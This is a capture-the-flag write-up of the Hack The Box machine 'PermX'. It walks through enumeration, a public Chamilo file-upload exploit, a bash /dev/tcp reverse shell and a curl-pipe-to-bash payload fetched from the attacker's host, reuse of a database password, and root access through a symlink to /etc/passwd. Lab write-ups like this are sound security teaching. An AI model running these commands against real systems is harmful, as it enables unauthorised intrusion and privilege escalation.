

# PermX

**OS:** Linux

**Difficulty:** Easy 

## Enumeration:
I'll start with a port scan.

```bash
nmap -sC -sV -p 22,80 10.129.246.18

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll add "permx.htb" to my hosts file and take a look at the page.


I found nothing of value on this site.

I'll search for subdomains.
```bash
sudo ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://permx.htb/ -H "Host: FUZZ.permx.htb" -fc 302

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 44ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 73ms]
```


I added both "lms.permx.htb" and "wwww.permx.htb" to my hosts file. I'll take a look at lms.permx.htb.



We can see Chamilo is used. And inspecting the page reveals a possible user on the target system.

```bash
mailto:admin@permx.htb
```

I'll use feroxbuster to furhter enumerate this web server.
```bash
feroxbuster -u http://lms.permx.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -d 1

301      GET        9l       28w      322c http://lms.permx.htb/documentation => http://lms.permx.htb/documentation/

```

The documentation directory reveals the use of Chamilo 1.11. We can find a POC for an exploit of the version 1.11.24 [here](https://www.exploit-db.com/exploits/52083).

## Initial foothold:

We can see the vulnerability is an unauthenticated file upload. I'll use this POC for my initial foothold.

```bash
python3 52083.py http://lms.permx.htb/ pwd
[+] File uploaded successfully!
[+] Access the shell at: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=
[+] Command Output:
/var/www/chamilo/main/inc/lib/javascript/bigupload/files
```

We can see it is working. I'll get a reverse shell on the system.
```bash
# Payload
bash -i >& /dev/tcp/10.10.14.113/6666 0>&1
```


This did not work. So I'll try the same payload but in another way. I'll write a simple reverse shell script, start a web server and try a file less execution.
```bash
# Payload:
curl http://10.10.14.113/rv.sh|bash

# Server:
python3 -m http.server 80
```

This worked.
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Lateral movement:

We can see another user in the /etc/passwd file called mtz. 
```bash
cat /etc/passwd|grep sh

root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

I'll need to find a way to gain access to that account. I'll start by looking for clear-text credentials. Possible files that contain that kind of information are config files. I'll look up where are the configuration files for chamilo. Turn out they are in /app/config.

I found a database password in the  configuration.php.
```bash
cat configuration.php|grep password

$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

I'll use ssh to connect as mtz on the target.
```bash
ssh mtz@permx.htb
03F6lY3uXAP2bkW8

mtz@permx:~$ whoami
mtz
```

## Privilege escalation:

Running "sudo -l" reveals we can run "/opt/acl.sh" as the root user.
```bash
sudo -l

    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script:
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

We can see the script expects 3 arguments user permissions and target file. This scripts amis to set permissions to a given file in the /home/mtz directory.
I can bypass the restrictions by making a symlink to a file. I'll change the permissions to the /etc/passwd file to read/write and remove the password for the root.

```bash
ln -s /etc/passwd passwd
nano passwd # remove the x on the root entry
sudo /opt/acl.sh mtz rw /home/mtz/passwd
su -


root@permx:~# whoami 
root
```

And that's it.